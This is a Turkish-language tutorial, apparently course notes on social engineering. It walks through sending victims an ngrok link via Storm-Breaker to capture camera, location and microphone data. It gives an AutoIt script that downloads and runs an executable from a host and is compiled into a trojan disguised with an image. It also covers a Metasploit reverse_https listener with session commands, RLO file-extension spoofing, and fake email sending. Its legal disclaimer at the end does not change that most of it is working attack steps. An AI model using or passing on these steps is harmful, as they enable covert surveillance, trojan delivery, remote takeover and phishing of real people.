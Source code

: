 # 📚 Bölüm 13: Sosyal Mühendislik

---

## 🌐 Sadece Link ile Cihazlara Ulaşmak

### 🔸 Ngrok Nedir?

Ngrok, yerel (localhost) servislerini dış dünyaya açmak için kullanılan bir tünelleme (tunneling) aracıdır.

- HTTPS, TCP ve UDP tünelleri oluşturabilir.
- Port yönlendirme olmadan dış IP veya domain üzerinden erişim sağlar.

```bash
# HTTP 2525 portunu tünellemek
./ngrok http 2525
```

### 🚨 Storm-Breaker Kullanımı

```bash
python3 st.py
```

- Ngrok iki bağlantı adresi verir: biri local, biri internete açık URL.
- Kurbana bu link gönderilerek **kamera, konum, mikrofon** verileri ele geçirilebilir.
- Premium sürüm ile uyarı ekranları kaldırılabilir.

---

## 🦠 Zararlı Yazılım Türleri

1. **Virüs** – Dosyalara bulaşan ve çoğalan zararlı yazılım
2. **Worm (Solucan)** – Ağa yayılan, çoğalan yazılım
3. **Trojan (Truva Atı)** – Masum görünen ama arka planda zararlı çalışan yazılım
4. **Ransomware** – Dosyaları şifreleyip fidye talep eden yazılım
5. **Spyware** – Bilgi toplayan casus yazılım
6. **Adware** – İstenmeyen reklamlar gösteren yazılım
7. **Rootkit** – Kalıcı erişim sağlayan araç
8. **Keylogger** – Klavye vuruşlarını kaydeden yazılım
9. **Botnet** – Enfekte sistemlerden oluşan kötü amaçlı ağ

---

## 🔍 Bilgi Toplama Araçları

### 🕵️ Maltego

- Açık kaynak istihbarat (OSINT) ve link analizi yapar.
- Kişi, e-posta, alan adı, IP vs. analiz edilir.
- Görsel grafiklerle ilişki çıkarımı sağlar.

### 🔎 Sherlock

- Kullanıcı adı üzerinden sosyal medya hesaplarını arar.

```bash
python3 sherlock username
python3 sherlock username --output output.txt
python3 sherlock username --site Instagram
```

---

## 🖼 Görsel ve Backdoor Birleştirmek

1. `.jpg`, `.ico` ve `backdoor.exe` dosyaları `/var/www/html/backdoor` içine atılır.
2. Windows'a aktarıldıktan sonra AutoIt ile birleştirilir.

### 📄 AutoIt Script:

```autoit
#include <StaticConstants.au3>
#include <WindowsConstants.au3>

Local $urls = "http://192.168.64.2/backdoor/android.jpg,http://192.168.64.2/backdoor/myhttps.exe"
Local $urlsArray = StringSplit($urls, ",", 2)

For $url In $urlsArray
    $sFile = _DownloadFile($url)
    shellExecute($sFile)
Next

Func _DownloadFile($sURL)
    Local $sFile = StringRegExpReplace($sURL, "^.*/", "")
    Local $sDirectory = @TempDir & "\" & $sFile
    Local $hDownload = InetGet($sURL, $sDirectory, 17, 1)
    InetClose($hDownload)
    Return $sDirectory
EndFunc
```

3. AutoIt ile `Compile Script to EXE` özelliği kullanılarak trojan hazırlanır.

---

## 🧪 Trojanı Çalıştırmak

1. **Dinleyici Başlatmak**:

```bash
msfconsole
use/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 192.168.1.5
set LPORT 443
exploit -j -z
```

2. Hedef kullanıcı trojan'ı çalıştırdığında:

```bash
sessions -l      # Tüm oturumları listeler
sessions -i 1    # 1 numaralı session'a bağlan
```

3. Meterpreter içinden:

```bash
ls
background
```

---

## 🎭 Uzantı Gizleme (Right-to-Left Override)

- `unicode-explorer.com` üzerinden RLO karakteri (U+202E) ile dosya uzantısı gizlenebilir.

---

## 📧 E-posta Sahteciliği

- `anonymous email sender` gibi web siteleri üzerinden fake mail gönderimi yapılabilir.

---

⚠️ **Uyarı:** Bu dokümandaki bilgiler yalnızca yasal ve eğitim amaçlı kullanılmalıdır. İzinsiz kullanımlar yasa dışıdır.

